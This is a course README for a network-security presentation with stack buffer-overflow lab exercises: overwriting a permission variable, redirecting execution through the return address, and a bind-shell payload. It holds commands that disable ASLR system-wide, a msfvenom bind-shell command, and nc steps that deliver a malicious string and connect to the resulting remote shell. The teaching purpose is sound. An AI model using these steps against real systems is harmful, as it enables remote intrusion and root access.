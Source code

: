 # NetworkSecurityPresentation
Presentation for the NetSec course based on Buffer overflow exploit

# Requisite
    
## disable memory randomization, enable core dumps
```bash
    cat /proc/sys/kernel/randomize_va_space
    sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
    sudo sysctl -p
    cat /proc/sys/kernel/randomize_va_space
    # verify "0"
    ulimit -c unlimited
    ulimit -c
    # verify "unlimited"
```
#Test Exercise

This test exercise is used to explain how memory works and how data is managed into the stack.

##Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise_test.c -o exercise_test
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise_test
```
# First Exercise

The first exercise consists in overwrite a variable used to grant permission to a user using the `strcpy()` vulnerable function

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise1.c -o exercise1
```

## Execution
```bash
    cd /path/to/repo/src
    ./exercise input
```
# Second Exercise

The second exercise consists in overwrite the `%eip` register of the stack in order to redirect the program to a chosen function using the `strcpy()` vulnerable function and the `gdb` debugger in order to find out the right number of junk chars to fill up the stack

## Compilation
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g exercise2.c -o exercise2
```

## Find out the function register
```bash
    cd /path/to/repo/src
    objdump -d exercise2 | grep <function_name>
```
## Execution
```bash
    cd /path/to/repo/src
    ./exercise $(python2 -c 'print"A"*<num_char> + "function register"')
```
    keep in mind that the intel cpu are Little Endian so pay attention when insert the register
# Third Exercise
The third exercise consists in overwrite the `%eip` register of the stack and fill up the buffer with a shellcode in order to spawn a remote shell possibly with root privileges
## Compilation server
```bash
    cd /path/to/repo/src
    gcc -O0 -m32 -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g p4-server.c -o p4-server
```

## Create a shellcode using msfvenom
```bash
    msfvenom -p linux/x86/shell_bind_tcp AppendExit=true -e x86/alpha_mixed -f python
```
## Execution server
```bash
    cd /path/to/repo/src
    ./p4-server
```

## Execution Client
```bash
    ./generate_malicious_string > string
    nc <server_port> 4001 < string 
    to generate the malicious string use the buffer output of the previous command and the %eip register found using the debugger

    nc <server_port> 4444 
    here's your remote shell :)
```
